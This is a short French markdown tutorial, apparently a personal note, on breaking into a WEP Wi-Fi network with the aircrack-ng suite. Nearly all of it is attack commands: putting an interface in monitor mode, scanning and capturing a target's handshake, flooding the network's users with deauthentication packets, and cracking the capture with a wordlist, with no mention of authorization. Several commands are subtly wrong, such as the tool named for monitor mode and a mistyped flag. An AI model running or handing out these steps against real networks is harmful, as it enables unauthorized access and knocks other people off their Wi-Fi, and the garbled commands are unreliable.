 # Hacker un wifi WEP

## pré requis :
Aircrack-ng :
    
- installation : `sudo apt-get install -y aircrack-ng`

## tuto :

1. choisir l'interface : 
   - `ifconfig`
  
2. Lancer le mode moniteurr sur l'interface concernée :
   - `aircrack-ng start wlan0`

3. Utiliser airodump pour scanner tous les réseaux aux alentours :
    -  `sudo airodump-ng [INTERFACEmon]`

4. Scanner le réseaux et mettre le handshake trouvé dans un fichier :
    
   - `airodump-ng –w [ESSID] –c [Channel] –bssid [BSSID] [interface]mon`
    **help :** [BSSID] = bssid du wifi cible | [CHANNEL] = channel du wifi [1-13] | 
    --write = stocke les information capturé dans la location donnée | [ESSID] = nom du fichier où vous voudrez stocker les données capturer

5. En laissant tourner le scan du handshake, envoyez des paquets de désauthentification aux autulisateurs du wifi :
   - `sudo aireplay-ng -0 100 -a [BSSID] [INTERFACE]`\
   **help :** -o = nombre de pacquet de désauthentification a envoyer | -a = Bssid du wifi cible

6. Cracker le handshake :
   - `sudo aircrack-ng handshake/handshake.cap-01.cap-w [WORDLIST] `\
   **help :** -w = location de la wordlist

7. enlever le mode moniteur et rallumer le service : 
   - `sudo airmon-ng stop [INTERFACE]`
   - ` sudo service network-manager restart`
  

